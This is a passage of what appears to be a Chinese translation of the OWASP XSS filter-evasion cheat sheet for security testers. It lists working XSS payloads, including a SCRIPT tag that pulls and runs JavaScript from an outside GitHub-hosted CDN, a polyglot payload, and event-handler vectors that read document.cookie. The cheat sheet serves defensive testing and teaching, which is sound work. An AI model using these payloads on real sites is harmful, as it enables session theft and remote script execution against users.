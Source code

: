 # XSS 过滤器绕过备忘录

## 引言

本文是为应用安全专业人士提供的跨站脚本（XSS）测试指南。这份备忘录最初基于 RSnake 的开创性 XSS 备忘录，之前位于：`http://ha.ckers.org/xss.html`。现在，OWASP 备忘录系列为用户提供了文档的更新和维护版本。第一个 OWASP 备忘录，[跨站脚本防御](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)，就是受到 RSnake 工作的启发，我们感谢 RSnake 的灵感！

## 测试

这份备忘录通过提供一系列可以绕过某些 XSS 防御过滤器的攻击，证明了输入过滤是防御 XSS 的不完整方法。

### 不使用过滤器绕过的基本 XSS 测试

这种攻击使用普通的 XSS JavaScript 注入，作为备忘录的基准（在任何现代浏览器中都不需要引号，因此这里省略了引号）：

```html
<SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
```

### XSS 定位器（多语言）

这个测试提供了一个"多语言测试 XSS 载荷"，可以在多个上下文中执行，包括 HTML、脚本字符串、JavaScript 和 URL：

```js
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```

（基于 [Gareth Heyes](https://twitter.com/garethheyes) 的这条[推文](https://twitter.com/garethheyes/status/997466212190781445)）

### 格式不正确的 A 标签

这个测试跳过 `[href](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/a#href)` 属性，以演示使用事件处理程序的 XSS 攻击：

```js
\<a onmouseover="alert(document.cookie)"\>xxs 链接\</a\>
```

Chrome 会自动为你插入缺失的引号。如果遇到问题，尝试省略它们，Chrome 将在 URL 或脚本中正确放置缺失的引号：

```js
\<a onmouseover=alert(document.cookie)\>xxs 链接\</a\>
```

（由 David Cross 提交，在 Chrome 上验证）

### 格式不正确的 IMG 标签

这种 XSS 方法使用宽松的渲染引擎在 IMG 标签内创建 XSS 向量（需要用引号封装）。我们认为这种方法最初是为了纠正不严谨的编码，并且会使正确解析 HTML 标签变得更加困难：

```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
